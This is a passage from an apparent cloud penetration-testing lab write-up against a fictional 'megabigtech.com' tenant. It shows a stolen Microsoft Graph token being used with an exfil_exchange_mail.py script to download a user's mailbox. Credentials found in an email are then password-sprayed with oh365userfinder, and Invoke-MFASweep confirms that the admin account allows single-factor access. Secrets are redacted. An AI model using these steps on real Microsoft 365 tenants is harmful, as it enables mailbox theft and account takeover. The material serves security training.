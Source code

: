 ```
ext_expires_in : 3711

```

We can check the token 
```
└─PS> $MSGraphToken.access_token
<REDACTED>
```

We can try to download email with [this script](https://raw.githubusercontent.com/rootsecdev/Azure-Red-Team/master/Tokens/exfil_exchange_mail.py). Download it and input the MSGraph access token.
```
└─$ python3 ./exfil_exchange_mail.py
HTML email downloaded: URGENT: Change Password.html
HTML email downloaded: URGENT: Change Password.html
HTML email downloaded: sunita_adm.html
HTML email downloaded: sunita_adm.html
HTML email downloaded: Re: My Trip Expenses.html
HTML email downloaded: My Trip Expenses.html
HTML email downloaded: Loaner laptop updates.html
HTML email downloaded: Re: Phishing awareness training.html
All emails downloaded.
```

The email `sunita_adm` contains credentials for sunita_adm
```
└─$ python3 oh365userfinder.py -p '<REDACTED>' --pwspray --elist emails.list 

   ____  __   _____ _____ ______   __  __                  _______           __
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/

                                   Version 1.1.2
                               A project by The Mayor
                        Oh365UserFinder.py -h to get started

------------------------------------------------------------------------------------------

[info] Starting Oh365 User Finder at Tue Sep 23 15:36:32 2025

[+] sunita_adm@megabigtech.com                   Result -                VALID PASSWORD! [+]

[info] Oh365 User Finder discovered one valid credential pair.

[info] Scan completed at Tue Sep 23 15:36:34 2025     
```
We can confirm that this is a valid Microsoft account, that although it's an admin account is not subject to MFA
```
└─PS> Invoke-MFASweep -Username sunita_adm@megabigtech.com -Password '<REDACTED>' -Recon
---------------- MFASweep ----------------
<SNIP>
######### SINGLE FACTOR ACCESS RESULTS #########
Microsoft Graph API                  | YES
Microsoft Service Management API     | YES
M365 w/ Windows UA                   | YES
M365 w/ Linux UA                     | YES
M365 w/ MacOS UA                     | NO
M365 w/ Android UA                   | YES
M365 w/ iPhone UA                    | NO
M365 w/ Windows Phone UA             | NO
Exchange Web Services (BASIC Auth)   | NO
Active Sync (BASIC Auth)             | NO
```